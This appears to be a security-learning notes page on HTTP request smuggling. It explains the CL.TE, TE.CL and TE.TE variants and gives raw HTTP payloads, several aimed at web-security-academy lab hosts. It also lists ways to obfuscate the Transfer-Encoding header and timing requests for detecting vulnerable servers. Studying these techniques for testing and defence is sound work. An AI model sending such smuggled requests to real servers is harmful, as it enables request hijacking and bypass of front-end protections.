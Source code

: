 # HTTP Smuggling

## How do HTTP request smuggling vulnerabilities arise? <a href="#how-do-http-request-smuggling-vulnerabilities-arise" id="how-do-http-request-smuggling-vulnerabilities-arise"></a>

Most HTTP request smuggling vulnerabilities arise because the HTTP/1 specification provides two different ways to specify where a request ends: the `Content-Length` header and the `Transfer-Encoding` header.

Classic request smuggling attacks involve placing both the `Content-Length` header and the `Transfer-Encoding` header into a single HTTP/1 request and manipulating these so that the front-end and back-end servers process the request differently.

#### CL.TE vulnerabilities <a href="#cl-te-vulnerabilities" id="cl-te-vulnerabilities"></a>

Here, the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. We can perform a simple HTTP request smuggling attack as follows:

{% code overflow="wrap" fullWidth="false" %}
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```
{% endcode %}

#### TE.CL vulnerabilities <a href="#te-cl-vulnerabilities" id="te-cl-vulnerabilities"></a>

Here, the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. We can perform a simple HTTP request smuggling attack as follows:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

The front-end server processes the `Transfer-Encoding` header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 8 bytes long, up to the start of the line following `SMUGGLED`. It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request. This request is forwarded on to the back-end server.

The back-end server processes the `Content-Length` header and determines that the request body is 3 bytes long, up to the start of the line following `8`. The following bytes, starting with `SMUGGLED`, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.

```
POST / HTTP/1.1
Host: 0af3002f045e79278101346b00f400cf.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

#### TE.TE behavior: obfuscating the TE header <a href="#te-te-behavior-obfuscating-the-te-header" id="te-te-behavior-obfuscating-the-te-header"></a>

Here, the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

## Finding HTTP request smuggling vulnerabilities

#### Finding CL.TE vulnerabilities using timing techniques <a href="#finding-cl-te-vulnerabilities-using-timing-techniques" id="finding-cl-te-vulnerabilities-using-timing-techniques"></a>

\
If an application is vulnerable to the CL.TE variant of request smuggling, then sending a request like the following will often cause a time delay:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

Since the front-end server uses the `Content-Length` header, it will forward only part of this request, omitting the `X`. The back-end server uses the `Transfer-Encoding` header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay.

#### Finding TE.CL vulnerabilities using timing techniques <a href="#finding-te-cl-vulnerabilities-using-timing-techniques" id="finding-te-cl-vulnerabilities-using-timing-techniques"></a>

If an application is vulnerable to the TE.CL variant of request smuggling, then sending a request like the following will often cause a time delay:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

Since the front-end server uses the `Transfer-Encoding` header, it will forward only part of this request, omitting the `X`. The back-end server uses the `Content-Length` header, expects more content in the message body, and waits for the remaining content to arrive. This will cause an observable time delay.
